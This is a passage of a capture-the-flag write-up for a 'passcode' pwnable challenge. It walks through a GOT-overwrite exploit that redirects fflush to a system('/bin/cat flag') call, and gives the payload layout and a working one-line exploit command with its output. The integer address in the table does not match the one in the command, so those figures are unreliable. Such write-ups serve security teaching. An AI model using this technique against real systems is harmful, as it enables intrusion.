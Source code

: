 The plt performs a jmp to 0x804a004 which is the got entry. We can confirm that:

```
(gdb) x/i 0x804a004
   0x804a004 <fflush@got.plt>:	test   BYTE PTR ss:[eax+ecx*1],al
```
We're going to point it to one instruction before the system() instruction to allow "/bin/cat flag" to be loaded into the register.

Now let's put it all together, our payload is as follows:

| 96 bytes buffer | 4 bytes GOT entry | 4 bytes address of intruction before 'call system' as an integer |

| 'a'*96 | \x04\xa0\x04\x08 (lil endianess) | 134514147 (0x80485e3) |

Note: scanf expects a "%d" (integer) and thus the last part of the exploit being an integer.

let's try it :

```
passcode@pwnable:~$ ./passcode <<< $(python -c "print 'a'*96+'\x04\xa0\x04\x08'+'134514142'")
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
XXXXXXXXXXXXXXXXXXXXXXFLAGXXXHEREXXXXXXXXXXXXXXXXXXXXX
Now I can safely trust you that you have credential :)
```

We get flag !
